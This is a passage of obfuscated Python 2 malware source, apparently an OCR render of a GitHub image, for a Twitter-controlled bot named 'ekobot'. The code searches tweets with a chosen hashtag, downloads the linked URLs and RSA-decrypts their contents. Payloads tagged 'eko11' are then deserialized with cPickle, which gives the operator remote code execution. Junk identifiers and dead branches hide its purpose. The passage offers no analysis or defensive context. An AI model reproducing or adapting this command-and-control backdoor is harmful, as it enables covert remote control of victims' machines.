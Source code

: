 ```python
            oO0o0ooO0 - OO0O0O - IiII1IiiIiI1.ii1II11I1ii1I * iiIIIII1i1iI * ii1I
        if 0:
            ii1II11I1ii1I


def oo00000o0(url):
    I11i1i11i1I = httplib2.Http('')
    Iiii, OOO0O = I11i1i11i1I.request(url, 'GET')
    if Iiii.status == 200:
        try:
            if Iiii['content-type'][0:10] == 'text/plain':
                return OOO0O
            return 'Err'
        except:
            return 'Err'

    else:
        return url
        if 0:
            o0oOoO00o


def IiI1i(cipher_text):
    try:
        OOo0o0 = RSA.importKey(open('ekobot.pem').read())
        O0OoOoo00o = b64decode(cipher_text)
        iiiI11 = OOo0o0.decrypt(O0OoOoo00o)
        return iiiI11
    except Exception as OOooO:
        print str(OOooO)
        return 'Err'
        if 0:
            OOOo0 + Oo / ii1II11I1ii1I * iiiii


II111iiii = Twython(o0OOO, iIiiiI, oauth_version=2)
II = II111iiii.obtain_access_token()
II111iiii = Twython(o0OOO, access_token=II)
if 0:
    Oo % ii1I
oo00 = o0oO0()
o0oOo0Ooo0O = II111iiii.search(q='#' + OO0o, rpp='250', result_type='mixed', since_id=oo00)
if 0:
    I1IiI * iiIIIII1i1iI * iI1Ii11111iIi - oO0o0ooO0 - Ooo00oOo00o
for OooO0OO in o0oOo0Ooo0O['statuses']:
    if OooO0OO['id'] > oo00:
        oo00 = OooO0OO['id']
        if 0:
            ooO0OO000o
    iii11iII = 0
    try:
        for i1I111I in OooO0OO['entities']['hashtags']:
            if i1I111I['text'] == OO0o:
                iii11iII = 1

        if iii11iII == 1:
            for i11I1IIiiIi in OooO0OO['entities']['urls']:
                if os.fork() == 0:
                    IiIiIi = IiI1i(oo00000o0(i11I1IIiiIi['url']))
                    if IiIiIi[0:5] == 'eko11':
                        cPickle.loads(IiIiIi[5:])
                    os._exit(0)
                    if 0:
```